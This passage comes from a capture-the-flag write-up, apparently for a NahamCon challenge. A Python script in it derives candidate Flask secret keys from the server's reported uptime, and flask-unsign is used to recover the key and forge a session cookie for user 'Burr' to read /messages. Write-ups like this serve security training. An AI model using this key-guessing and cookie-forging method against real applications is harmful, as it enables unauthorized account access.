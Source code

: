 ```
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta

base_url = 'http://challenge.nahamcon.com'
port = 30311
path = 'status'

url = f'{base_url}:{port}/{path}'
rqst = requests.get(url)

resp = rqst.text.split('\n')[1].split(' ')

days = int(resp[0])
hours = int(resp[2])
mins = int(resp[4])

uptime = timedelta(days=days, hours=hours, minutes=mins)

current_time = datetime.now()

launch_time = current_time - uptime

with open('list.txt', 'w') as outfile:
        for i in range(0, 1000):
                forward_time = launch_time - timedelta(minutes=i)
                format_time = forward_time.strftime("%Y%m%d%H%M")
                key = f'THE_REYNOLDS_PAMPHLET-{format_time}'
                outfile.write(key + '\n')
```

![](https://i.imgur.com/yPpAVlm.png)

- so now we have a list of possible keys which we can test using `flask-unsign` :


![](https://i.imgur.com/KzAzrbN.png)

- SECRET_KEY : `THE_REYNOLDS_PAMPHLET-179708250845`
- now we can easily modify the cookie and use any of the allowed usernames to read `/messages`

```
> flask-unsign --cookie "{'name': 'Burr'}" --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845'
eyJuYW1lIjoiQnVyciJ9.ZlDfmg.x3PYD73ZIkbVJhdpJ4c8UdYfGyg
```

![](https://i.imgur.com/IBfF7Bi.png)

----------


## The Davinci Code
> Solved by : thewhiteh4t
